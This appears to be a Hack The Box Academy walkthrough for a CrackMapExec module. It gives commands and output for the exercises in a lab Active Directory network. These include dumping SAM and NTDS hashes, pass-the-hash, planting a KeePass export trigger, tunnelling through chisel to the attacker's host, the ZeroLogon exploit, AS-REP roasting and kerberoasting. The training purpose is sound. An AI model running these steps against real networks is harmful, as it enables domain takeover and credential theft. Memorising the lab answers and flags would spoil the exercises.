SMB         10.129.19.153   445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.19.153   445    MS01             [+] Dumping SAM hashes
SMB         10.129.19.153   445    MS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:30b3783ce2abf1af70f77d0660cf3453:::
SMB         10.129.19.153   445    MS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.19.153   445    MS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.19.153   445    MS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
SMB         10.129.19.153   445    MS01             localadmin:1003:aad3b435b51404eeaad3b435b51404ee:7c08d63a2f48f045971bc2236ed3f3ac:::
SMB         10.129.19.153   445    MS01             sshd:1004:aad3b435b51404eeaad3b435b51404ee:d24156d278dfefe29553408e826a95f6:::
SMB         10.129.19.153   445    MS01             htb:1006:aad3b435b51404eeaad3b435b51404ee:6593d8c034bbe9db50e4ce94b1943701:::
SMB         10.129.19.153   445    MS01             [+] Added 7 SAM hashes to the database
```

The password hash for ID 1006 is shown to be `6593d8c034bbe9db50e4ce94b1943701`.

Answer: {hidden}

# Finding Secrets and Using Them

## Question 2

### "Which domain account, other than Guest and krbtgt, is disabled?"

Students need to make sure that `Chisel` server is running from `Pwnbox`, and that Windows target is configured as a chisel host. Using a socks5 proxy, students will target SMB on the internal domain controller authenticating as `robert:Inlanefreight01!` and dumping the NTDS secrets:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!' --ntds --enabled
```

Finding Secrets and Using Them

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-sooxhmznen]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!' --ntds --enabled

<SNIP>

SMB         172.16.1.10     445    DC01             [+] Dumped 23 NTDS hashes to /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds of which 20 were added to the database
SMB         172.16.1.10     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.1.10     445    DC01             [*] cat /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds | grep -iv disabled | cut -d ':' -f1
```

Once the log file is generated, students need to `cat` the file and filter for disabled accounts:

Code: shell

```shell
cat /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds | grep -i disabled | cut -d ':' -f1
```

Finding Secrets and Using Them

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-sooxhmznen]─[~/CrackMapExec]
└──╼ [★]$ cat /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds | grep -i disabled | cut -d ':' -f1

Guest
krbtgt
inlanefreight.htb\harris
```

Answer: {hidden}

# Finding Secrets and Using Them

## Question 3

### "What's the hash of the account named soti?"

Students need to look at the output of the previously dumped NTDS secrets log file, filtering for the account named `soti`:

Code: shell

```shell
cat /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds | grep soti
```

Finding Secrets and Using Them

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-sooxhmznen]─[~/CrackMapExec]
└──╼ [★]$ cat /home/htb-ac594497/.cme/logs/DC01_172.16.1.10_2023-01-12_170459.ntds | grep soti

inlanefreight.htb\soti:7105:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d::: (status=Enabled)
```

Answer: {hidden}

# Finding Secrets and Using Them

## Question 4

### "Use soti's hash to authenticate to 172.16.1.10 and get the flag from soti's desktop."

Students need to target `winrm`, passing the hash while authenticating as `soti:1bc3af33d22c1c2baec10a32db22c72d` in order to read the flag.txt file on the desktop for the `soti` user:

Code: shell

```shell
proxychains4 -q crackmapexec winrm 172.16.1.10 -u soti -H 1bc3af33d22c1c2baec10a32db22c72d -x "more c:\users\soti\desktop\flag.txt"
```

Finding Secrets and Using Them

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-sooxhmznen]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec winrm 172.16.1.10 -u soti -H 1bc3af33d22c1c2baec10a32db22c72d -x "more c:\users\soti\desktop\flag.txt"

SMB         172.16.1.10     5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
HTTP        172.16.1.10     5985   DC01             [*] http://172.16.1.10:5985/wsman
WINRM       172.16.1.10     5985   DC01             [+] inlanefreight.htb\soti:1bc3af33d22c1c2baec10a32db22c72d (Pwn3d!)
WINRM       172.16.1.10     5985   DC01             [+] Executed command
WINRM       172.16.1.10     5985   DC01             P4%$_tH3_hash_with_S0t1
```

Answer: {hidden}

# Getting sessions in a C2 Framework

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students should repeat the steps in the "Getting sessions in a C2 Framework" section. Once they have successfully used `CrackMapExec` to obtain C2 sessions with both Empire and `Metasploit's` `web_delivery`, they need to type `DONE`.

Answer: {hidden}

# Bloodhound Integration

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students are encouraged to repeat the steps in the "Bloodhound Integration" section then type `Done`.

Answer: {hidden}

# Popular Modules

## Question 1

### "What's the IP of the DNS entry dc02?"

Students need to target `ldap`, authenticating at `julio:Password` while utilizing the `get-network` module:

Code: shell

```shell
crackmapexec ldap dc01.inlanefreight.htb -u julio -p Password1 -M get-network -o ALL=true
```

Popular Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec ldap dc01.inlanefreight.htb -u julio -p Password1 -M get-network -o ALL=true

SMB         inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        inlanefreight.htb 389    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
GET-NETW... inlanefreight.htb 389    DC01             [*] Querying zone for records
GET-NETW... inlanefreight.htb 389    DC01             [*] Using System DNS to resolve unknown entries. Make sure resolving your target domain works here or specify an IP as target host to use that server for queries
GET-NETW... inlanefreight.htb 389    DC01             Found 4 records
GET-NETW... inlanefreight.htb 389    DC01             [+] Dumped 4 records to /home/htb-ac594497/.cme/logs/inlanefreight.htb_network_2023-01-16_183701.log
```

Useful information about the network can be found in the dumped log files:

Code: shell

```shell
cat /home/htb-ac594497/.cme/logs/inlanefreight.htb_network_2023-01-16_183701.log
```

Popular Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ cat /home/htb-ac594497/.cme/logs/inlanefreight.htb_network_2023-01-16_183701.log

test.inlanefreight.htb 	 172.16.1.39
database01.inlanefreight.htb 	 172.16.1.29
dc02.inlanefreight.htb 	 172.16.1.9
MS01.inlanefreight.htb 	 172.16.1.5
```

Students will find the IP `172.16.1.9` associated with the dc02 entry.

Answer: {hidden}

# Popular Modules

## Question 2

### "Use keepass_discover module to identify a another configuration file. Uses the path that has "Roaming" as the answer."

Students need to target smb, authenticating as `julio:Password1` while utilizing the `keepass_discover` module:

Code: shell

```shell
crackmapexec smb STMIP -u julio -p Password1 -M keepass_discover
```

Popular Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.177 -u julio -p Password1 -M keepass_discover

SMB         10.129.204.177  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.204.177  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
KEEPASS_... 10.129.204.177  445    DC01             Found process "KeePass" with PID 6240 (user INLANEFREIGHT\david)
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\david\AppData\Roaming\KeePass\KeePass.config.xml
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\david\Application Data\KeePass\KeePass.config.xml
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\david\Documents\David-Database.kdbx
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\david\My Documents\David-Database.kdbx
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\julio\AppData\Roaming\KeePass\KeePass.config.xml
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\julio\Application Data\KeePass\KeePass.config.xml
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\julio\Documents\Database.kdbx
KEEPASS_... 10.129.204.177  445    DC01             Found C:\Users\julio\My Documents\Database.kdbx
```

Students will find the path `C:\Users\david\AppData\Roaming\KeePass\KeePass.config.xml`.

Answer: {hidden}

# Popular Modules

## Question 3

### "What's the password you found in the KeePass database file?"

Students need to target smb, authenticating as `julio:Password1` and using the `keepass_trigger` module to read the configuration file that was discovered previously:

Code: shell

```shell
crackmapexec smb STMIP -u julio -p Password1 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/david/AppData/Roaming/KeePass/KeePass.config.xml
```

Popular Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.177 -u julio -p Password1 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/david/AppData/Roaming/KeePass/KeePass.config.xml

[!] Module is not opsec safe, are you sure you want to run this? [Y/n] Y
SMB         10.129.204.177  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.204.177  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
KEEPASS_... 10.129.204.177  445    DC01             
KEEPASS_... 10.129.204.177  445    DC01             [*] Adding trigger "export_database" to "C:/Users/david/AppData/Roaming/KeePass/KeePass.config.xml"
KEEPASS_... 10.129.204.177  445    DC01             [+] Malicious trigger successfully added, you can now wait for KeePass reload and poll the exported files
KEEPASS_... 10.129.204.177  445    DC01             
KEEPASS_... 10.129.204.177  445    DC01             [*] Restarting INLANEFREIGHT\david's KeePass process
KEEPASS_... 10.129.204.177  445    DC01             [*] Polling for database export every 5 seconds, please be patient
KEEPASS_... 10.129.204.177  445    DC01             [*] we need to wait for the target to enter his master password ! Press CTRL+C to abort and use clean option to cleanup everything
....
KEEPASS_... 10.129.204.177  445    DC01             [+] Found database export !
KEEPASS_... 10.129.204.177  445    DC01             [+] Moved remote "C:\Users\Public\export.xml" to local "/tmp/export.xml"
KEEPASS_... 10.129.204.177  445    DC01             
KEEPASS_... 10.129.204.177  445    DC01             [*] Cleaning everything..
KEEPASS_... 10.129.204.177  445    DC01             [*] No export found in C:\Users\Public , everything is cleaned
KEEPASS_... 10.129.204.177  445    DC01             [*] Found trigger "export_database" in configuration file, removing
KEEPASS_... 10.129.204.177  445    DC01             [*] Restarting INLANEFREIGHT\david's KeePass process
KEEPASS_... 10.129.204.177  445    DC01             
KEEPASS_... 10.129.204.177  445    DC01             [*] Extracting password..

<SNIP>
```

It's possible for the tool to error out with python3 error messages. However, students can still find the password in the export.xml file that is still generated by CME:

Code: shell

```shell
cat /tmp/export.xml | grep -i protectinmemory -A 5
```

Popular Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ cat /tmp/export.xml | grep -i protectinmemory -A 5

							<Value ProtectInMemory="True">S3creTSuperP@ssword</Value>
						</String>
						<String>
							<Key>Title</Key>
							<Value>flag</Value>
						</String>

```

The password is shown to be `S3creTSuperP@ssword`.

Answer: {hidden}

# Vulnerability Scan Modules

## Question 1

### "Connect to target IP and get the flag located in the Administrator's desktop."

Students need to target smb, using local authentication to connect as `Administrator:IpreferanewP@$$` while executing a command to read the flag.txt file:

Code: shell

```shell
crackmapexec smb STMIP -u Administrator -p 'IpreferanewP@$$' -x "more C:\Users\Administrator\desktop\flag.txt" --local-auth
```

Vulnerability Scan Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' -x "more C:\Users\Administrator\desktop\flag.txt" --local-auth

SMB         10.129.204.146  445    WS01             [*] Windows Server 2016 Standard 14393 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:True)
SMB         10.129.204.146  445    WS01             [+] WS01\Administrator:IpreferanewP@$$ (Pwn3d!)
SMB         10.129.204.146  445    WS01             [+] Executed command 
SMB         10.129.204.146  445    WS01             N0w_W3_N33d_Pr0x7Ch41n$
```

The flag reads `N0w_W3_N33d_Pr0x7Ch41n$`.

Answer: {hidden}

# Vulnerability Scan Modules

## Question 2

### "Attempt to exploit one of the vulnerabilities and get the flag located on the Domain Controller Administrator's desktop."

Students need to first download and execute chisel as a server from their attack host:

Code: shell

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz -O chisel.gz -q
gunzip -d chisel.gz 
chmod +x chisel
./chisel server --reverse
```

Vulnerability Scan Modules

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz -O chisel.gz -q
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ gunzip -d chisel.gz 
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ chmod +x chisel 
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ ./chisel server --reverse
2023/01/16 19:36:49 server: Reverse tunnelling enabled
2023/01/16 19:36:49 server: Fingerprint zT8LOvO8c8hLT61xJGachfmqR9R6JwYvzSsqttx/1Is=
2023/01/16 19:36:49 server: Listening on http://0.0.0.0:8080
```

Next, `chisel` needs to be downloaded and then transferred to the target machine:

Code: shell

```shell
crackmapexec smb STMIP -u Administrator -p 'IpreferanewP@$$' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe --local-auth
```

Vulnerability Scan Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe --local-auth
SMB         10.129.204.146  445    WS01             [*] Windows Server 2016 Standard 14393 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:True)
SMB         10.129.204.146  445    WS01             [+] WS01\Administrator:IpreferanewP@$$ (Pwn3d!)
SMB         10.129.204.146  445    WS01             [*] Copy ./chisel.exe to \Windows\Temp\chisel.exe

[*] completed: 100.00% (1/1)
SMB         10.129.204.146  445    WS01             [+] Created file ./chisel.exe on \\C$\\Windows\Temp\chisel.exe
```

Now, `chisel` can be run on the target machine:

Code: shell

```shell
crackmapexec smb STMIP -u Administrator -p 'IpreferanewP@$$' -x "C:\Windows\Temp\chisel.exe client PWNIP:8080 R:socks" --local-auth
```

Vulnerability Scan Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' -x "C:\Windows\Temp\chisel.exe client 10.10.15.68:8080 R:socks" --local-auth

SMB         10.129.204.146  445    WS01             [*] Windows Server 2016 Standard 14393 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:True)
SMB         10.129.204.146  445    WS01             [+] WS01\Administrator:IpreferanewP@$$ (Pwn3d!)

[*] completed: 100.00% (1/1)
```

Students need to then add the socks5 proxy to their proxychains.conf file:

Vulnerability Scan Modules

```shell-session
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

ZeroLogon must be used against the internal domain controller:

Code: shell

```shell
git clone https://github.com/dirkjanm/CVE-2020-1472 -q
cd CVE-2020-1472/
proxychains4 -q python3 cve-2020-1472-exploit.py dc01 172.16.10.3
proxychains4 -q crackmapexec smb 172.16.10.3 -u 'DC01$' -p '' --ntds
```

Vulnerability Scan Modules

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ git clone https://github.com/dirkjanm/CVE-2020-1472 -q
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ cd CVE-2020-1472/
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec/CVE-2020-1472]
└──╼ [★]$ proxychains4 -q python3 cve-2020-1472-exploit.py dc01 172.16.10.3
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Performing authentication attempts...
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:49671  ...  OK
=================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Subsequently, students need to authenticate with SMB using an empty password:

Code: shell

```shell
proxychains crackmapexec smb 172.16.10.3 -u 'DC01$' -p '' --ntds
```

Vulnerability Scan Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ proxychains crackmapexec smb 172.16.10.3 -u 'DC01$' -p '' --ntds

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:135  ...  OK
SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:445  ...  OK
SMB         172.16.10.3     445    DC01             [+] INLANEFREIGHT.HTB\DC01$: 
SMB         172.16.10.3     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.10.3     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:49666  ...  OK
SMB         172.16.10.3     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:f36ccfe434490cddc644901973d9a344:::
```

Finally, students can use the administrator to hash to read the flag:

Code: shell

```shell
proxychains crackmapexec smb 172.16.10.3 -u administrator -H f36ccfe434490cddc644901973d9a344 -x "more C:\users\administrator\desktop\flag.txt"
```

Vulnerability Scan Modules

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-ojzelcmay7]─[~/CrackMapExec]
└──╼ [★]$ proxychains crackmapexec smb 172.16.10.3 -u administrator -H f36ccfe434490cddc644901973d9a344 -x "more C:\users\administrator\desktop\flag.txt"

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:135  ...  OK
SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:445  ...  OK
SMB         172.16.10.3     445    DC01             [+] INLANEFREIGHT.HTB\administrator:f36ccfe434490cddc644901973d9a344 (Pwn3d!)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.10.3:49668  ...  OK
SMB         172.16.10.3     445    DC01             [+] Executed command 
SMB         172.16.10.3     445    DC01             CME_Vuln3rabil1tY_$C4Nn3r

```

The flag reads `CME_Vuln3rabil1tY_$C4Nn3r`.

Answer: {hidden}

# Creating Our Own CME Module

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students should repeat the examples in the `Creating Our Own CME Module` section then type `Done`.

Answer: {hidden}

# Creating Our Own CME Module

## Question 2

### "Try to create a new module based on this, to create a new user and add that user to any group. The module should optionally receive the group name, or by default, it will add the user to the administrator's group. Mark DONE when finished."

Students are encouraged to create a new module using the criteria provided in the question, then type `Done` when finished.

Answer: {hidden}

# Additional CME Functionality

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students are highly encouraged to repeat the examples in the `Additional CME Functionality` section then type `Done` once the tasks are complete.

Answer: {hidden}

# Kerberos Authentication

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students need to repeat the examples in the `Kerberos Authentication` section, then type `Done` when complete.

Answer: {hidden}

# Mastering CMEDB

## Question 1

### "Repeat the examples in the section, and mark DONE when finished."

Students should repeat the examples in the `Mastering CMEDB` section then type `Done`.

Answer: {hidden}

# Skills Assessment

## Question 1

### "What's the password of the account you found?

Students first need to connect to the target `chisel` server, allowing communication to the internal network:

Code: shell

```shell
sudo chisel client STMIP:8080 socks
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~]
└──╼ [★]$ sudo chisel client 10.129.204.182:8080 socks

2023/01/17 19:18:29 client: Connecting to ws://10.129.204.182:8080
2023/01/17 19:18:29 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2023/01/17 19:18:30 client: Connected (Latency 96.073864ms)
```

Also, the proxychains.conf file must be configured for socks proxy:

Skills Assessment

```shell-session
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Next, students need to utilize a NULL authentication to enumerate domain users:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.15.3 -u '' -p '' --rid-brute 6000 > users.txt
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec smb 172.16.15.3 -u '' -p '' --rid-brute 6000 > users.txt

|S-chain|-<>-127.0.0.1:1080-<><>-172.16.15.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.15.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.15.3:135-<><>-OK
<SNIP>
```

The users.txt file needs to be formatted:

Code: shell

```shell
cat users.txt | grep SidTypeUser | cut -d "\\" -f 2 | cut -d " " -f 1 | grep -v \\$ > skusers.txt
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ cat users.txt | grep SidTypeUser | cut -d "\\" -f 2 | cut -d " " -f 1 | grep -v \\$ > skusers.txt
```

Students will now ASREPRoast the list of users, attempting to steal the password hash for any user that does not require Kerbreros Pre Authentication:

Code: shell

```shell
proxychains4 -q crackmapexec ldap dc01.inlanefreight.local -u skusers.txt -p '' --asreproast skasreproast.out
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec ldap dc01.inlanefreight.local -u skusers.txt -p '' --asreproast skasreproast.out
SMB         dc01.inlanefreight.local 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

[*] completed: 100.00% (1/1)

[*] completed: 100.00% (1/1)

[*] completed: 100.00% (1/1)

[*] completed: 100.00% (1/1)
LDAP        dc01.inlanefreight.local 445    DC01             $krb5asrep$23$Juliette@INLANEFREIGHT.LOCAL:4f46e03e741fcc35301fc30062f77a5a$9876573c8151ff5ca5b4f76ff2ee46103cc9b62b978adc9a44acd8cc8014dc088ca2c3aad709ef5ee548ecdb0c85eb46307712d52a4f3803db87497cd3cf1dd8fbd14b6e24b718dc1005868d052362d2390ece8e3f140c13a6f2f9a3c41a4b3a0e7aafe115fe7fd44c76249a8c34ef577220692a4535ca33024bb80f12cbf3fb6549568f975e68f8a5ce0c23add000a169f7e81d0baa147b62c33870f0c6749d68b2c4390a9d32d2ef5c1391bff57c3ff472cdf5a72e4d1e9c7f868f3292d69068fad0db7258e273056e39932169aef457dce635af6897836464481e7762b929f9973607ba0f233b4f708c8eff16b2607eaf2d823cdd8157cf46
```

The output will contain a password hash, which needs to be cracked with hashcat:

Code: shell

```shell
hashcat -m 18200 skasreproast.out /usr/share/wordlists/rockyou.txt --force
```

Skills Assessment

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ hashcat -m 18200 skasreproast.out /usr/share/wordlists/rockyou.txt --force

hashcat (v6.1.1) starting...

$krb5asrep$23$Juliette@INLANEFREIGHT.LOCAL:4f46e03e741fcc35301fc30062f77a5a$9876573c8151ff5ca5b4f76ff2ee46103cc9b62b978adc9a44acd8cc8014dc088ca2c3aad709ef5ee548ecdb0c85eb46307712d52a4f3803db87497cd3cf1dd8fbd14b6e24b718dc1005868d052362d2390ece8e3f140c13a6f2f9a3c41a4b3a0e7aafe115fe7fd44c76249a8c34ef577220692a4535ca33024bb80f12cbf3fb6549568f975e68f8a5ce0c23add000a169f7e81d0baa147b62c33870f0c6749d68b2c4390a9d32d2ef5c1391bff57c3ff472cdf5a72e4d1e9c7f868f3292d69068fad0db7258e273056e39932169aef457dce635af6897836464481e7762b929f9973607ba0f233b4f708c8eff16b2607eaf2d823cdd8157cf46:Password1
```

The password for `Juliette` is shown to be `Password1`.

Answer: {hidden}

# Skills Assessment

## Question 2

### "Gain access to the SQL01 and submit the contents of the flag located in C:\Users\Public\flag.txt."

Now that students have a valid domain account they can quickly find kerberoastable users (Note how only the name of the domain controller is passed as a command line argument; there is no IP or hostname):

Code: shell

```shell
proxychains4 -q crackmapexec ldap dc01 -u Juliette -p Password1 --kerberoasting skkerberoasting.out
```

Skills Assessment

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-lprrymfzrm]─[~/CrackMapExec]
└──╼ [★]$ proxychains4 -q crackmapexec ldap dc01 -u Juliette -p Password1 --kerberoasting skkerberoasting.out

SMB         dc01            445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        dc01            389    DC01             [+] INLANEFREIGHT.LOCAL\Juliette:Password1 
LDAP        dc01            389    DC01             [*] Total of records returned 1
CRITICAL:impacket:CCache file is not found. Skipping...
LDAP        dc01            389    DC01             sAMAccountName: Atul memberOf:  pwdLastSet: 2022-12-08 18:09:06.588127 lastLogon:2022-12-14 11:45:37.482056
